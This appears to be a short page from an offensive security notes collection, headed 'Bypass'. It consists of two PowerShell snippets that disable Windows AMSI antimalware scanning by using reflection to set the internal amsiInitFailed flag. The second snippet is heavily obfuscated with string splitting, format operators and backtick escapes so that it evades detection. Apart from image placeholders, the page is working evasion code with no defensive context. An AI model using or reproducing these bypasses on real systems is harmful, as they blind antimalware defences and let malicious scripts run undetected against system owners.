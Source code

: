 # Bypass

### Bypass

![](../../../.gitbook/assets/image%20%28302%29.png)

```csharp
$a =[Ref].Assembly.GetTypes()
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}
$d=$c.GetFields('NonPublic,Static')
Foreach($e in $d) {if ($e.Name -like "*InitFailed") {$f=$e}}
$f.SetValue($null,$true)
```

![](../../../.gitbook/assets/image%20%28307%29.png)



```text
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]("{1}{0}"-F'F','rE' ) ) ;( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )
```


